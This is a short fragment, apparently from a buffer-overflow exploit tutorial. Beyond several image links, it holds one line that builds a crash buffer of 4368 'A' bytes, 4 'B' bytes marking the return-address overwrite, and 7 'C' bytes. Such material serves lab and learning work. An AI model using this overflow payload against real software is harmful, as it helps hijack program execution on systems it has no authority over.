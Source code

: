 ![](media/51bb4a2c2e7fab71cf05e8a906e3adcc.png)

![](media/5a66ff8332dd90271655d6c44a78439f.png)

crash = "\\x41" \* 4368 + "B" \* 4 + "C" \* 7

![](media/56d2963d0c17a2df117d648c4b0dea4f.png)

![](media/8896861d410f82aa2659079db75c60f6.png)
